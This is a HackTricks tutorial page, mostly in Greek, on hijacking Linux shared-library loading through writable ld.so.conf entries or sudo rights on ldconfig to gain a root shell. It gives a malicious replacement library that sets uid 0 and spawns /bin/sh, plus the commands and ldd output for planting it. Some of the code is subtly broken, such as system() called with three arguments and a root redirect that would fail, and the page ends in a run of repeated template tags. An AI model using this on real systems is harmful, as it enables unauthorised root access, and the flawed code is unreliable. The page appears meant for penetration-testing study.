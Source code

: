 # ld.so privesc exploit example

{% hint style="success" %}
Learn & practice AWS Hacking:<img src="/.gitbook/assets/arte.png" alt="" data-size="line">[**HackTricks Training AWS Red Team Expert (ARTE)**](https://training.hacktricks.xyz/courses/arte)<img src="/.gitbook/assets/arte.png" alt="" data-size="line">\
Learn & practice GCP Hacking: <img src="/.gitbook/assets/grte.png" alt="" data-size="line">[**HackTricks Training GCP Red Team Expert (GRTE)**<img src="/.gitbook/assets/grte.png" alt="" data-size="line">](https://training.hacktricks.xyz/courses/grte)

<details>

<summary>Support HackTricks</summary>

* Check the [**subscription plans**](https://github.com/sponsors/carlospolop)!
* **Join the** 💬 [**Discord group**](https://discord.gg/hRep4RUj7f) or the [**telegram group**](https://t.me/peass) or **follow** us on **Twitter** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks\_live)**.**
* **Share hacking tricks by submitting PRs to the** [**HackTricks**](https://github.com/carlospolop/hacktricks) and [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) github repos.

</details>
{% endhint %}
{% endhint %}
{% endhint %}
{% endhint %}
{% endhint %}
{% endhint %}
{% endhint %}
{% endhint %}
{% endhint %}

## Προετοιμάστε το περιβάλλον

In the following section you can find the code of the files we are going to use to prepare the environment

{% tabs %}
{% tab title="sharedvuln.c" %}
```c
#include <stdio.h>
#include "libcustom.h"

int main(){
printf("Welcome to my amazing application!\n");
vuln_func();
return 0;
}
```
{% endtab %}

{% tab title="libcustom.h" %}
```c
#include <stdio.h>

void vuln_func();
```
{% endtab %}

{% tab title="libcustom.c" %}
```c
#include <stdio.h>

void vuln_func()
{
puts("Hi");
}
```
{% endtab %}
{% endtabs %}

1. **Δημιουργήστε** αυτά τα αρχεία στον υπολογιστή σας στον ίδιο φάκελο
2. **Συγκεντρώστε** τη **βιβλιοθήκη**: `gcc -shared -o libcustom.so -fPIC libcustom.c`
3. **Αντιγράψτε** `libcustom.so` στο `/usr/lib`: `sudo cp libcustom.so /usr/lib` (δικαιώματα root)
4. **Συγκεντρώστε** το **εκτελέσιμο**: `gcc sharedvuln.c -o sharedvuln -lcustom`

### Ελέγξτε το περιβάλλον

Ελέγξτε ότι το _libcustom.so_ **φορτώνεται** από το _/usr/lib_ και ότι μπορείτε να **εκτελέσετε** το δυαδικό.
```
$ ldd sharedvuln
linux-vdso.so.1 =>  (0x00007ffc9a1f7000)
libcustom.so => /usr/lib/libcustom.so (0x00007fb27ff4d000)
libc.so.6 => /lib/x86_64-linux-gnu/libc.so.6 (0x00007fb27fb83000)
/lib64/ld-linux-x86-64.so.2 (0x00007fb28014f000)

$ ./sharedvuln
Welcome to my amazing application!
Hi
```
## Exploit

Σε αυτό το σενάριο θα υποθέσουμε ότι **κάποιος έχει δημιουργήσει μια ευάλωτη είσοδο** μέσα σε ένα αρχείο στο _/etc/ld.so.conf/_:
```bash
sudo echo "/home/ubuntu/lib" > /etc/ld.so.conf.d/privesc.conf
```
Ο ευάλωτος φάκελος είναι _/home/ubuntu/lib_ (όπου έχουμε δικαίωμα εγγραφής).\
**Κατεβάστε και μεταγλωττίστε** τον παρακάτω κώδικα μέσα σε αυτήν την διαδρομή:
```c
//gcc -shared -o libcustom.so -fPIC libcustom.c

#include <stdio.h>
#include <unistd.h>
#include <sys/types.h>

void vuln_func(){
setuid(0);
setgid(0);
printf("I'm the bad library\n");
system("/bin/sh",NULL,NULL);
}
```
Τώρα που έχουμε **δημιουργήσει τη κακόβουλη βιβλιοθήκη libcustom μέσα στο κακώς ρυθμισμένο** μονοπάτι, πρέπει να περιμένουμε για μια **επανεκκίνηση** ή για τον χρήστη root να εκτελέσει **`ldconfig`** (_σε περίπτωση που μπορείτε να εκτελέσετε αυτό το δυαδικό αρχείο ως **sudo** ή έχει το **suid bit** θα μπορείτε να το εκτελέσετε μόνοι σας_).

Μόλις συμβεί αυτό **ελέγξτε ξανά** από πού φορτώνει το εκτελέσιμο `sharevuln` τη βιβλιοθήκη `libcustom.so`:
```c
$ldd sharedvuln
linux-vdso.so.1 =>  (0x00007ffeee766000)
libcustom.so => /home/ubuntu/lib/libcustom.so (0x00007f3f27c1a000)
libc.so.6 => /lib/x86_64-linux-gnu/libc.so.6 (0x00007f3f27850000)
/lib64/ld-linux-x86-64.so.2 (0x00007f3f27e1c000)
```
Όπως μπορείτε να δείτε, **το φορτώνει από το `/home/ubuntu/lib`** και αν οποιοσδήποτε χρήστης το εκτελέσει, θα εκτελεστεί ένα shell:
```c
$ ./sharedvuln
Welcome to my amazing application!
I'm the bad library
$ whoami
ubuntu
```
{% hint style="info" %}
Σημειώστε ότι σε αυτό το παράδειγμα δεν έχουμε κλιμακώσει τα δικαιώματα, αλλά τροποποιώντας τις εντολές που εκτελούνται και **περιμένοντας τον root ή άλλο χρήστη με προνόμια να εκτελέσει το ευάλωτο δυαδικό αρχείο** θα μπορέσουμε να κλιμακώσουμε τα δικαιώματα.
{% endhint %}

### Άλλες κακές ρυθμίσεις - Ίδια ευπάθεια

Στο προηγούμενο παράδειγμα προσποιηθήκαμε μια κακή ρύθμιση όπου ένας διαχειριστής **έθεσε έναν μη προνομιούχο φάκελο μέσα σε ένα αρχείο ρύθμισης μέσα στο `/etc/ld.so.conf.d/`**.\
Αλλά υπάρχουν και άλλες κακές ρυθμίσεις που μπορούν να προκαλέσουν την ίδια ευπάθεια, αν έχετε **δικαιώματα εγγραφής** σε κάποιο **αρχείο ρύθμισης** μέσα στο `/etc/ld.so.conf.d`, στον φάκελο `/etc/ld.so.conf.d` ή στο αρχείο `/etc/ld.so.conf` μπορείτε να ρυθμίσετε την ίδια ευπάθεια και να την εκμεταλλευτείτε.

## Εκμετάλλευση 2

**Υποθέστε ότι έχετε δικαιώματα sudo πάνω στο `ldconfig`**.\
Μπορείτε να υποδείξετε στο `ldconfig` **από πού να φορτώσει τα αρχεία ρύθμισης**, οπότε μπορούμε να εκμεταλλευτούμε αυτό για να κάνουμε το `ldconfig` να φορτώσει αυθαίρετους φακέλους.\
Έτσι, ας δημιουργήσουμε τα αρχεία και τους φακέλους που χρειάζονται για να φορτώσουμε το "/tmp":
```bash
cd /tmp
echo "include /tmp/conf/*" > fake.ld.so.conf
echo "/tmp" > conf/evil.conf
```
Τώρα, όπως υποδεικνύεται στην **προηγούμενη εκμετάλλευση**, **δημιουργήστε τη κακόβουλη βιβλιοθήκη μέσα στο `/tmp`**.\
Και τέλος, ας φορτώσουμε τη διαδρομή και να ελέγξουμε από πού φορτώνει τη βιβλιοθήκη το δυαδικό αρχείο:
```bash
ldconfig -f fake.ld.so.conf

ldd sharedvuln
linux-vdso.so.1 =>  (0x00007fffa2dde000)
libcustom.so => /tmp/libcustom.so (0x00007fcb07756000)
libc.so.6 => /lib/x86_64-linux-gnu/libc.so.6 (0x00007fcb0738c000)
/lib64/ld-linux-x86-64.so.2 (0x00007fcb07958000)
```
**Όπως μπορείτε να δείτε, έχοντας δικαιώματα sudo πάνω στο `ldconfig` μπορείτε να εκμεταλλευτείτε την ίδια ευπάθεια.**

{% hint style="info" %}
{% hint style="success" %}
Learn & practice AWS Hacking:<img src="/.gitbook/assets/arte.png" alt="" data-size="line">[**HackTricks Training AWS Red Team Expert (ARTE)**](https://training.hacktricks.xyz/courses/arte)<img src="/.gitbook/assets/arte.png" alt="" data-size="line">\
Learn & practice GCP Hacking: <img src="/.gitbook/assets/grte.png" alt="" data-size="line">[**HackTricks Training GCP Red Team Expert (GRTE)**<img src="/.gitbook/assets/grte.png" alt="" data-size="line">](https://training.hacktricks.xyz/courses/grte)

<details>

<summary>Support HackTricks</summary>

* Check the [**subscription plans**](https://github.com/sponsors/carlospolop)!
* **Join the** 💬 [**Discord group**](https://discord.gg/hRep4RUj7f) or the [**telegram group**](https://t.me/peass) or **follow** us on **Twitter** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks\_live)**.**
* **Share hacking tricks by submitting PRs to the** [**HackTricks**](https://github.com/carlospolop/hacktricks) and [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) github repos.

</details>
{% endhint %}
</details>
{% endhint %}
</details>
{% endhint %}
</details>
{% endhint %}
</details>
{% endhint %}
</details>
{% endhint %}
</details>
{% endhint %}
</details>
{% endhint %}
</details>
{% endhint %}
